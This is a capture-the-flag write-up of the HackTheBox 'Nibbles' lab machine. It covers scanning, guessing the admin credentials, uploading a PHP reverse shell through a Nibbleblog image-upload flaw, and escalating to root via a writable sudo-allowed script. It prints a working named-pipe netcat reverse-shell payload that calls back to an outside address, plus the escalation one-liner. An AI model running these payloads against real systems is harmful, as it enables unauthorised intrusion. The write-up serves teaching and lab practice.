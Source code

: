 # HackTheBox Nibbles Writeup

## Enumeration
The first thing I like to do when approaching one of these challenges is to enumerate the target.
We will use nmap to do this.  -A tells nmap to do a service scan so we can enumerate the services
on the target.  -Pn tells nmap not to ping the target first.

```bash
nmap -A -Pn 10.10.10.75
```

```
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-29 22:36 EDT
Nmap scan report for 10.10.10.75
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=6/29%OT=22%CT=1%CU=33382%PV=Y%DS=2%DC=T%G=Y%TM=5B36ECC
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=100%GCD=1%ISR=109%TI=Z%CI=I%TS=8)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=
OS:7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   114.11 ms 10.10.14.1
2   114.11 ms 10.10.10.75

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.65 seconds
```

It looks like there is a web page hosted on the target.  Let's take a look at it:

![Main Page](screenshots/1_main_page.PNG)

This is not the most robust site in the world.  Sometimes, developers leave comments in the source code of a web page that may reveal useful information.  Let's take a look:

![Main Page Source](screenshots/2_main_page_source.PNG)

The comment says there is nothing interesting in the nibbleblog directory.  Let's see about that:

![Nibbleblog Main Page](screenshots/3_nibbleblog_main.PNG)

When I first saw the page, I started clicking links.  On some pages, I found some pages that could have been vulnerable
to SQL injection.  I tried a few things, but got nowhere.  I decided to try to find out more about nibbleblog.
Googling for nibbleblog leads us to the project's page on GitHub [1].
This allows us to take a look at the structure of the application.  The admin page is at /nibbleblog/admin.php:

![Nibbleblog Admin Page](screenshots/4_admin_main.PNG)

I tried SQL injection on the log in, and that did not work.  On a whim, I tried to guess very simple credentials.
Since the name of the challenge is nibbles, I guessed that was either a password or user name.  After a few guesses,
I found that the admin user is ```admin``` and the password is ```nibbles```:

![Logged in as admin](screenshots/5_admin_logged_in.PNG)

I poked around the admin interface a little bit to see if there was anything I could use to gain remote code execution.  I did not
find anything immediately, so I started Googling.  After a little bit, I ran across this page which describes a remote code execution
vulnerability in Nibbleblog if you have admin credentials [2].  It was worth a shot.  The vulnerability is that the image upload functionality does not check that the files you are uploading are
really images, so you could upload whatever you want.

I wrote a quick script that will spawn a reverse shell that will call me back:
```php
<?php
	system("mknod /tmp/p p");
	system("/bin/sh 0</tmp/p | nc 10.10.15.77 43043 1> /tmp/p");
?>
```
I had a netcat listener running on my machine at 10.10.15.77 on port 43043.  The port I chose is arbitrary.  You can choose whatever open port you want to on your box.

I used the following command to set the listener up:
```bash
# -v means to be verbose, -l tells netcat to listen, -p allows us to specify the port we want to use (43043).
nc -vlp 43043
```

In theory, when you upload the page and access it, it will execute this code and call back.

Let's take a a closer look at this code, which I got the idea for from here [3]:

```mknod /tmp/p p``` makes a named pipe (the p at the end of the command) in /tmp/p.  Named pipes allow for interprocess communication.  In this case, we are going
to use this pipe to allow netcat to communicate since I am not sure if the version of netcat on target (if it exists) supports the reverse shell option (-e).

I found out later that the version of netcat on target does not support -e, so it is good that we worked around it.

The second command spawns a shell and redirects standard input (stream 0) to our named pipe.  That is piped as input to netcat, and the output from netcat is
redirected to our named pipe.  Normally, it would go to the screen, but since we do not have a virtual terminal on the machine, we need to redirect it.  Stream 1 is standard output.

Let's upload our shell:
![Uploading shell](screenshots/6_upload_shell.PNG)

We get some warnings, but we can ignore those.  The file will be available in nibbleblog/content/private/plugins/my_image/image.php

![Warnings from shell upload](screenshots/7_upload_shell_warnings.PNG)

Let's surf to the page at http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php to the page and look at our listener:

![Successful Shell](screenshots/8_shell_succeeded.PNG)

Looks like we got a connection.  Awesome!  We are not going to get a prompt, so we can start typing commands.  Let's see what user we are, and see if that user has a home directory:

![User Flag](screenshots/9_user_flag.PNG)

What is user.txt?  Looks like the user flag.  ```b02ff32bb332deba49eeaed21152c8d8```

We are not done yet though.  We still have to get the root flag.  There is a zip file called personal.zip.  Let's see what is in it:

```bash
unzip -l personal.zip
```
![Contents of personal.zip](screenshots/10_unzip_list.PNG)

We will need to extract monitor.sh to look at it further:
```bash
unzip personal.zip
head -n 50 /home/nibbler/personal/stuff/monitor.sh
```
![Extracting personal.zip](screenshots/11_unzip_files.PNG)

This is a snippet, but the full script is available from tecmint.com [4].
![Snippet of monitor.sh](screenshots/12_head_monitor.sh.PNG)

This script does not appear to give us root by itself.  Sometimes, you can escalate privileges by leveraging a misconfiguration on the system.  One thing that may be misconfigured is permissions for the sudo command.  Sudo allows users to run commands as other users (typically root) based on rules defined in the /etc/sudoers file.  Let's see if nibbler can run any commands as sudo:
```bash
sudo -l
```
![Nibbler sudo commands](screenshots/13_sudo_list.PNG)

This shows us all of the commands that nibbler is able to run using sudo and if he needs a password to do it. The interesting rule in here is
```
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
This line says that nibbler can run /home/nibber/personal/stuff/monitor.sh as root without a password.  If we have control over the file, we can put whatever we want in it, and those commands would be executed as root.
Let's verify the permissions:

![Permissions on monitor.sh](screenshots/14_monitor_permissions.PNG)

We have write access to monitor.sh, so let's replace it with a one-liner that will give us a shell:
```bash
echo "python3 -c 'import pty; pty.spawn(\"/bin/bash\")'" > /home/nibbler/personal/stuff/monitor.sh
```
This one line of Python imports the pty library and spawns a psuedoterminal (pty) in which we will run bash.  Psuedoterminals allow us to work in a full interactive terminal which allows us to do things like tab-completion, up arrow to get history, use certain applications that need a terminal (like ssh, vim).  This is a great site to read more if you are interested [5].  The command replaces the contents of /home/nibbler/personal/stuff/monitor.sh with our one line of Python:
![New monitor.sh](screenshots/15_replace_monitor.PNG)

Let's see if it works:
```bash
sudo /home/nibber/personal/stuff/monitor.sh
```
No errors, so that is good.  Let's verify we are root:
![We have root](screenshots/16_root_permissions.PNG)

Now we need to look for the flag.  Usually it is somewhere in root's home directory:
![Looking for the flag](screenshots/17_root_dir.PNG)

Looks like we found it (root.txt):
![Found the root flag](screenshots/18_root_flag.PNG)
```b6d745c0dfb6457c55591efc898ef88c```

## Conclusion
This was a fun challenge because we got to leverage multiple vulnerabilities to reach our ultimate goal.  There were multiple issues here which allowed us to be successful:
	* Comments in HTML source that revealed areas of the site that the administrator did not intend for the public to visit:  When publishing anything to a website, internally within an organization or externally to the Internet, it is important to make sure that anything you do not want others to see is left around.  This includes directory listings left open or comments that might reveal information.
	* Use of weak credentials. Easily guessed credentials are not much of a barrier for an attacker.  Use strong passwords, especially to protect administrative interfaces.
	* Keep software up to date.  This vulnerability was fixed in a newer version of Nibbleblog.
	* Be careful about how root or Administrator permissions are delegated on your systems.  It is not a good idea to allow anything that a user can modify to run with elevated privileges.

## References
[1]: https://github.com/dignajar/nibbleblog "Nibbleblog Github Page"
[2]: https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html
[3]: https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/
[4]: https://www.tecmint.com/linux-server-health-monitoring-script/
[5]: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
